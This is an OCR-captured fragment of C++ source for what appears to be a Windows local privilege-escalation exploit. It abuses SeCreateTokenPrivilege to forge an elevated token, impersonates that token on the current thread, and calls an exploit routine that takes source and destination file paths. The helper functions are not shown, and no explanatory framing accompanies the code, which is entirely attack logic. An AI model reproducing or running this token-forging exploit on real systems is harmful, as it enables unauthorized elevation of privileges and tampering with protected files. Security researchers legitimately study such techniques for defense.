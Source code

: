 ```c++
			break;
		default:
			wprintf(L"[-] Invalid Argument: %s.\n", argv[1]);
			return 0;
		}

		++argv;
		--argc;
	}

	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
	{
		wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
		return 0;
	}

	// Enable SeCreateTokenPrivilege for the current process token.
	if (!EnableTokenPrivilege(hToken, SE_CREATE_TOKEN_NAME))
	{
		wprintf(L"[-] Failed to enable SeCreateTokenPrivilege for the current process token.\n");
		return 0;
	}

	pElevatedToken = CreateUserToken(hToken);
	if (pElevatedToken == NULL)
	{
		wprintf(L"[-] Failed to create user token.\n");
		return 0;
	}

	if (!DisplayTokenInformation(pElevatedToken))
	{
		wprintf(L"[-] Failed to get S4U token information.\n");
		return 0;
	}

	hThread = GetCurrentThread();

	if (!SetThreadToken(&hThread, pElevatedToken))
	{
		wprintf(L"[-] SetThreadToken Error: [%u].\n", GetLastError());
		return 0;
	}
	wprintf(L"\n[*] Successfully impersonated the elevated token.\n");

	if (!ExploitSeCreateTokenPrivilege(sourceFile, destFile))
	{
		wprintf(L"[-] Failed to exploit SeCreateTokenPrivilege.\n");
		return 0;
	}
}
```
